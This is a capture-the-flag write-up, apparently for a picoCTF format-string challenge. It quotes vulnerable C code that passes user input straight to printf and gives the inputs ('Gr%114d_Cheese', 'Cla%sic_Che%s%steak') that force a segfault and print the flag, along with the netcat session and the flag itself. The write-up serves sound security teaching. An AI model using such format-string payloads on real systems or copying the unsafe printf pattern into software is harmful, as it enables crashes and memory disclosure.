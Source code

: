 ```

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
a            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}

```
The goal is to trigger a Segmentation Fault SIGSEGV to execute the sigsegv_handler() function and print the flag. 

2.Triggering SIGSEGV under server_bob() will cause the flag to print,however,to reach serve_bob() we first have to bypass serve_patrick().Which only happens if the characters printed by printf(choice1) is greater than 2xBUFFERSIZE (i.e., 64 characters).We must choose an input that is greater than 64 characters.Our options are
```
Breakf@st_Burger (16 chars)
Bac0n_D3luxe (13 chars)
Gr%114d_Cheese(>114 chars)# due to padding provided by %114d

```
So to bypass serve_patrick() we input 'Gr%114d_Cheese'

3.To trigger SIGSEGV in serve_bob() ,the program is vulnerable at the line printf(choice2). The goal is to use a format specifier to access an invalid memory address.So we input the only option
that contains the needed format specifiers
```
Cla%sic_Che%s%steak
```

4.We connect to the netcat connection and input our options and the flag is displayed.
```
 nc mimas.picoctf.net 50118
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
```
